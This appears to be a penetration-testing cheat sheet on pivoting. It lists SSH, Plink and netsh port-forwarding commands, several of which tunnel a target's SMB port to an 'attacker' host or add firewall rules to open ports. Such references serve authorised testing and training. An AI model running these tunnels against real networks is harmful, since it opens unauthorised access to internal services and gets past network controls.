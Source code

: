 **Remote port forwarding**
 `ssh -N -R 10.10.1.1:4455:127.0.0.1:445 attacker@10.10.1.1`

**Socks5 with SSH**
 `ssh -N -D 127.0.0.1:8888 admin@10.1.1.1`

## Plink:
Source: https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
Plink Binary Located in Kali Linux: /usr/share/windows-binaries
```
plink -L <local_port>:<remote_address>:<remote_port> <username>@<remote_host>
```

### Plink Port Forwarder on Windows:

plink in an interactive shell

```
plink.exe -ssh -L 0.0.0.0:4444:10.1.1.1:445 admin@10.10.1.1
plink.exe -ssh -R 10.10.1.1:4444:127.0.0.1:445 attacker@10.10.1.1
plink.exe -ssh -D 127.0.0.1:8080 admin@10.10.1.1
```

plink in non interactive shell

```
cmd.exe /c echo y | plink.exe -ssh -l admin -pw password -R 10.10.1.1:4444:127.0.0.1:445 attacker@10.10.1.1
```

netsh local port forwarding:

```
netsh interface portproxy add v4tov4 listenaddress=10.1.1.1 listenport:4444 connectaddress:10.1.1.1 connectport:3306
netsh advfirewall firewall add rule name="4444_to_3306" protocol=TCP dir=in localip=127.0.0.1 localport=3306 action=allow
```

From <https://werebug.com/pentest-cheatsheet/#port-forwarding>

# Netsh:

```
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp

# Context:
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=443 connectaddress=172.21.0.0 connectport=443
# Verify port forward was created:
netsh interface portproxy show all
# Remove port forward
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=443
```
